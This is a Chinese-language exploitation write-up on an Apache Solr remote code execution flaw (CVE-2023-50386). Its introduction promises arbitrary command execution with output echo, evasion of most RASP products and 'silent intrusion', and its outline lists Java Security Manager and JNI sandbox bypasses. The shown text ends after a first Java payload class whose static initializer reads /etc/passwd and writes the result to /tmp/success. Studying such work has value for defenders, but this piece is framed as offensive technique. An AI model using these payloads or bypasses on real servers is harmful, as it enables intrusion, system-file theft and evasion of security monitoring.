 

# Apache Solr 远程代码执行漏洞（CVE-2023-50386）深入利用与验证

> 在 https://xz.aliyun.com/t/13637 中，漏洞作者已经详细介绍了漏洞的原理、分析及复现过程，这里就不再 CV 搬运。在漏洞作者的文章中，仅提供了简单的代码执行（创建文件），在本文中，我们实现了任意代码执行和回显，并且代码可以实现大多数 RASP 的绕过，也不会产生网络连接，某种意义上可以完成无感入侵。本文涉及代码均在 vvmdx 仓库。

目录：

Java Security Manager 绕过

-   ProcessBuilder 测试
    
-   自定义 ClassLoader 绕过
    
-   反射利用 getProtectionDomain0 绕过
    
-   Unsafe 绕过 JDK17 的限制
    
-   反射利用 ProcessImpl 绕过
    

JNI 绕过 RASP

-   一次失败的尝试
    
-   一次成功的尝试
    

命令执行回显

后记

## Java Security Manager 绕过

Solr 使用了 Java Security Manager，因此执行代码会受到沙箱限制

### ProcessBuilder 测试

我们写一个简单的命令执行

```plain
package zk_backup_0.configs.conf1;

import java.io.*;

public class Exp {
    static {
        try {
            String command = "head -n 5 /etc/passwd";
            ProcessBuilder builder = new ProcessBuilder(command.split("\\s+"));
            Process process = builder.start();
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            String line = reader.readLine();
            String res = "";
            while (line != null) {
                res = res + line + "\n";
                line = reader.readLine();
            }
            reader.close();
            System.out.println(res);
            new File("/tmp/success").createNewFile();
            FileOutputStream stream = new FileOutputStream("/tmp/success");
            stream.write(res.getBytes());
        }catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```